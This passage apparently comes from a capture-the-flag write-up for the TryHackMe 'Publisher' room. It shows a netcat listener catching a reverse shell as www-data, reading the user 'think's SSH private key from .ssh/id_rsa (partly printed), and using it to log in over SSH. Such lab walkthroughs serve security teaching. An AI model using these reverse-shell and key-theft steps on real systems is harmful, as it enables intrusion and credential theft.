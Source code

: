 If we return to our listener we will noticesd a reverse connection from the target.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Publisher]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.20.60] 38824
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@41c976e507f8:/home/think/spip/spip$ whoami
whoami
```

We have obtained a shell as the www-data user on the target. The SPIP's root directory on the target is a sub directory of the think user and we are free to navigate in that directory. We can use this access to read the flag stored in think's home direcotory.
```bash
www-data@41c976e507f8:/home/think$ ls 
ls 
spip
user.txt
```

Since we can navigate this user's directory, let's read the SSH private key stored in the `.ssh` directory.
```bash
www-data@41c976e507f8:/home/think$ cat .ssh/id_rsa
cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxPvc9pijpUJA4olyvkW0ryYASBpdmBasOEls6ORw7FMgjPW86tDK
uIXyZneBIUarJiZh8VzFqmKRYcioDwlJzq+9/2ipQHTVzNjxxg18wWvF0WnK2lI5TQ7QXc
<SNIP>
M8X1rGlGEnXqGuw917aaHPPBnSfquimQkXZ55yyI9uhtc6BrRanGRlEYPOCR18Ppcr5d96
Hx4+A+YKJ0iNuyTwAAAA90aGlua0BwdWJsaXNoZXIBAg==
-----END OPENSSH PRIVATE KEY-----
```

We can use this private key to connect to the system as the user.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Publisher/Misc File]
└─$ nano id_rsa  

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Publisher/Misc File]
└─$ chmod 600 id_rsa

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Publisher/Misc File]
└─$ ssh think@10.10.20.60 -i id_rsa 
The authenticity of host '10.10.20.60 (10.10.20.60)' can't be established.
ED25519 key fingerprint is SHA256:Ndgax/DOZA6JS00F3afY6VbwjVhV2fg5OAMP9TqPAOs.
<SNIP>

Last login: Mon Feb 12 20:24:07 2024 from 192.168.1.13
think@publisher:~$ 
```
